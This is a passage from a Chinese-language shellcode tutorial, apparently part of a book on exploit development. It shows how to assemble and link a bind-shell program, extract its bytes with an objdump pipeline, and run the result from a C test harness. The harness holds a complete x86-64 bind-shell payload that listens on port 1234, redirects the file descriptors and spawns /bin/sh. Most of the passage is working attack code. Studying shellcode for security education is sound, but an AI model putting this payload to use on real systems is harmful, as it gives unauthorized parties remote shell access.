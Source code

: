 ```
    syscall
```

让我们汇编和链接它：

```
$ nasm -felf64 bind-shell.nasm -o bind-shell.o
$ ld bind-shell.o -o bind-shell
```

让我们将其转换为 shellcode：

```
$ objdump -M intel -D bind-shell | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

上述命令的输出显示在以下截图中：

![](img/00211.jpeg)

让我们将其注入到我们的 C 代码中：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =

"\x48\x31\xc0\x48\x83\xc0\x29\x48\x31\xff\x48\x83\xc7\x02\x48\x31\xf6\x48\xff\xc6\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x50\x66\x68\x04\xd2\x66\x6a\x02\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x10\x48\x31\xc0\x48\x83\xc0\x31\x0f\x05\x48\x31\xc0\x48\x83\xc0\x32\x48\x31\xf6\x48\xff\xc6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x2b\x48\x31\xf6\x48\x31\xd2\x0f\x05\x48\x89\xc3\x48\x89\xdf\x48\x31\xc0\x48\x83\xc0\x21\x48\x31\xf6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```
